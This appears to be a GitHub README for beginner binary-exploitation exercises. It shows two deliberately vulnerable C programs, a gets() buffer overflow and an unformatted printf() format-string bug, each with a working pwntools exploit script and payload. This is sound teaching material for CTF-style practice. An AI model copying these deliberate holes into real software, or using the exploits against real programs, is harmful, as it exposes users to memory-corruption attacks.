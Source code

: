 ### Easy Category :> Binary Exploitation
- This category contains simple programs i have written to demonstrate basic techniques in binary explotation .
- It covers the main topics but with most security features turned off.  Enjoy :D

#### bof
- This are the files <a href="./bof">here</a>
``` 
#include <stdio.h>

int main() {
    int check = 0;
    char input[40];

    setbuf(stdout, NULL);
    setbuf(stdin, NULL);
    setbuf(stderr, NULL);

    puts("Welcome to udsm-coict! ");
    gets(input);

    if (check == 0xdeadbeed) {
        puts("Congrats, here's a flag!\n");
        system("/bin/cat flag.txt\n");
    }
}
```
- We are expected to overflow the variable input to a point where we overright the variable check with the right characters to pass the if condition .
```
#!/usr/bin/python3
from pwn import *

class con:
        def local():
                elf = ELF("./pwn")
                p = elf.process()
                return p
        def remote():
                p = remote("ip_addr", "port")
                return p
def exploit():
        p = con.local()
        print(p.recvline())
        offset = 40
        addr = p32(0xdeadbeed)
        payload = b"A"*offset + addr 
        p.sendline(payload)
        print(p.recvall())
if __name__ == "__main__":
        exploit()
```
- First i find the offset where our input starts to overright the variable check . i get its 40 then what follows is the word i want to overflow...Taking into account the little endiannes concept.
``` We can also do this with the struct module of python..
this would result to this following exploit :
python3 -c"import struct;print(b'A'*40 + struct.pack('<I',0xdeadbeed))" > exploit1
cat exploit1 | ./pwn
wiiiih :)
```
#### format string
- This are the files <a href="./string_format">here</a>
```
➜  string_format git:(master) ✗ cat pwn.c
#include <stdio.h>

void buffer_init() {
        setbuf(stdout, NULL);
        setbuf(stdin, NULL);
        setbuf(stderr, NULL);
}

int main() {
        char name[32];
        char flag[64];
        char *flag_ptr = flag;

        buffer_init();
        FILE *file = fopen("./flag.txt", "r");
        if (file == NULL) {
                printf("Please, create 'flag.txt' for debugging.\n");
                exit(0);
        }

        fgets(flag,sizeof(flag),file);

        while(1) {
                printf("What is your name?\n");
                fgets(name,sizeof(name),stdin);
                printf("\nHello there, ");
                printf(name);
                printf("\n");
        }
        return 0;
}
```
The bug is at the printf function where the function is not given a format in which it should print the contents of name variable.To mean a format specifier is not provided xD.
```
#!/usr/bin/python3

from pwn import *

class conn:
        def local():
                elf = ELF("./pwn")
                p = elf.process()
                return p
        def remote():
                p = remote("ip_addr",port)
                return p

def exploit():
        p = conn.local()
        print(p.recvline())
        payload = b"%p"*16
        p.sendline(payload)
        flag = str(p.recvuntil(b"What is")).replace("(nil)",'')
        flag = flag.replace("\\n",'')
        flag = flag.replace("'",'')
        flag = flag.replace("What is",'')
        print(flag)
        print("Wiiihiiiiihihihih :)")
        decoded_flag = []
        for element in flag.split("0x")[1:]:
            decoded_flag.append(str(p32(int("0x" + element,16))))
        decoded_flag = ''.join(decoded_flag)
        print(decoded_flag.replace("'b'",''))
        p.close()

if __name__ == "__main__":
        exploit()
```
Happy hacking :D
wiiih  :)
